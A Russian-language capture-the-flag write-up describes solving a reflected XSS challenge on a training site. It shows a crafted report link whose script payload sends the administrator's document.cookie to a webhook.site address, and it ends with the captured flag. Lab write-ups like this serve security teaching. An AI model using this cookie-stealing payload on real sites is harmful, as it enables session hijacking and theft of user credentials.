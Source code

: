 # Клиент всегда прав

При входе на сайт видим строку поиска и три публикации, на которые можно отправить репорт

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/%D0%B8%D0%B7%D0%BE%D0%B1%D1%80%D0%B0%D0%B6%D0%B5%D0%BD%D0%B8%D0%B5.png?raw=true)

Проверяем сайт на наличие XSS уязвимости. Проверка показывает положительный результат

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/Screenshot_137.png?raw=true)

## Пробуем атаковать

Кнопка репорта отправляет публикацию администратору, причём в адресной строке можно заметить полную ссылку на публикацию. Прямая попытка ввода скрипта в репорт результата не даёт

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/Screenshot_138.png?raw=true)

Создаём сессию на `webhook.site`, на неё мы будем принимать результаты запроса

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Client_Always_Right/Screenshot_139.png?raw=true)

Изменим ссылку репорта, на ссылку страницы поиска с внедрённым пейлоадом. Итоговая ссылка будет выглядеть так
```http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='https://webhook.site/a2b7f0c7-8ea3-44a8-ba64-927c4c4d1927/?cookie='%252BencodeURIComponent(document.cookie)</script>```

Вставляем её в адресную строку, получаем отстук на webhook:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/b859bede-91a6-4c5d-add7-86f7e31a59b0)

Флаг получен: ***CODEBY{r3fl3cted_XSS_expl0it3d}***
